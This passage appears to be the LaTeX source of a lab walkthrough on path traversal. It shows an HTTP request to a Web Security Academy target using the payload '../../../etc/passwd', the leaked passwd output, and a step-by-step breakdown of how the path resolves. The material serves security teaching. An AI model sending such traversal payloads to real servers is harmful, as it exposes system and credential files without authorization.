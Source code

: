 \documentclass[11pt,letterpaper]{article}
\newcommand{\inlinecode}[1]{\texttt{\detokenize{#1}}}
\begin{document}
\subsection{Step 5: Test Traversal Sequences}

\begin{listing}[H]
\begin{verbatim}
-- The image is probably in something like /var/www/images/ --
-- We need to go up 3+ directories to reach root --

GET /image?filename=../../../etc/passwd HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- VULNERABLE RESPONSE! --
HTTP/1.1 200 OK
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
\end{verbatim}
\caption{Step 5: Add traversal sequences to escape base directory}
\end{listing}

\begin{warningbox}
The server returned the contents of \inlinecode{/etc/passwd}! This confirms:
\begin{enumerate}
  \item The application is vulnerable to path traversal
  \item We can read arbitrary files on the server
  \item The application runs with sufficient privileges to read system files
  \item The \inlinecode{root:x:0:0:} line proves we're reading the real passwd file
\end{enumerate}
\end{warningbox}

\subsection{Step 6: Understanding the Path Resolution}

\begin{listing}[H]
\begin{verbatim}
Server base directory: /var/www/images/

Our payload: ../../../etc/passwd

Path construction:
  /var/www/images/ + ../../../etc/passwd

Resolution step by step:
  /var/www/images/../../../etc/passwd
  /var/www/../../../etc/passwd       (up from images)
  /var/../../etc/passwd               (up from www)
  /../etc/passwd                      (up from var)
  /etc/passwd                         (.. at root = root)

Final resolved path: /etc/passwd
\end{verbatim}
\caption{How the path resolves on the server}
\end{listing}
\end{document}
